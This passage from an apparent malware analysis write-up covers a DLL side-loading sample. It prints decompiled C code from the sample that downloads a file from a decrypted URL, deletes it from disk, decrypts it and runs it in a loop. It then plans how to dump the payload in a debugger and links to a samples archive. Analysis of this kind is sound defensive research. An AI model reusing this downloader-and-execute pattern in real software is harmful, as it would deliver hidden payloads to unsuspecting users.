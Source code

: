 ```c
       sub_10002430() )
  {
    if ( CryptDecrypt(hKey, 0, 1, 0, pbBinary, &pcbBinary) )
    {
      sub_10002530();
      pbBinary[pcbBinary] = 0;
      sub_10001FB0(pszString, "%s", (const char *)pbBinary);
      while ( 1 )
      {
        if ( !URLDownloadToFileA(0, pszString, Dst, 0, 0) )
        {
          v3 = CreateFileA(Dst, 0x80000000, 1u, 0, 3u, 0, 0);
          v4 = v3;
          if ( v3 != (HANDLE)-1 )
          {
            v5 = GetFileSize(v3, 0);
            cchString = v5;
            v6 = malloc(v5);
            ReadFile(v4, v6, v5, &NumberOfBytesRead, 0);
            CloseHandle(v4);
            DeleteFileA(Dst);
            if ( sub_10002430() )
            {
              if ( CryptDecrypt(hKey, 0, 1, 0, (BYTE *)v6, &cchString) )
                sub_100012F0(&v11);
            }
            sub_10002530();
          }
        }
        Sleep(0x3E8u);
      }
    }
    sub_10002530();
  }
  return 0;
}
```

Alright, armed with this knowledge, we can now plan our ritual.


## Dynamic Analysis

Given that we already have the involved files, we can simply craft the desired execution flow in the debugger.
This will let us ignore the cryptography details and work with a `~liseces1.pcs` - which already magically appeared without the need of network access.
We will only need `LogiMail.dll` and `Encrypted` for this.

Our plan is to simply start up `LogiMail.dll` and step through `DllGetClassObject`.
As all WinAPI calls except `URLDownloadToFileA` have no dependency, we should be able to work our way through them from the beginning of the function.
We will then just skip the download and modify the arguments of `CreateFileA` to point wherever we put the "downloaded" file.
Once it is read into memory and decrypted, we simply dump the buffer to obtain our initially stated goal: extraction of a payload, previously not found in the sandbox run.


[malpedia]: https://malpedia.caad.fkie.fraunhofer.de/
[rony_twitter]: https://twitter.com/r0ny_123
[mak_twitter]: https://twitter.com/maciekkotowicz
[mak_tweet]: https://twitter.com/malwarelabpl/status/1273646045239672835
[byteatlas_twitter]: https://twitter.com/ByteAtlas
[mitre_t1574]: https://attack.mitre.org/techniques/T1574/001/
[anyrun_sample]: https://app.any.run/tasks/425d6b1b-d68d-4e5c-996d-8b1753faf750/
[elastic_blog]: https://www.elastic.co/de/blog/advanced-techniques-used-in-malaysian-focused-apt-campaign
[github_samples]: https://github.com/danielplohmann/danielplohmann.github.io/tree/master/assets/20200710/samples.zip
[asuna_medium]: https://medium.com/insomniacs/dad-theres-a-rat-in-here-e3729b65bf7a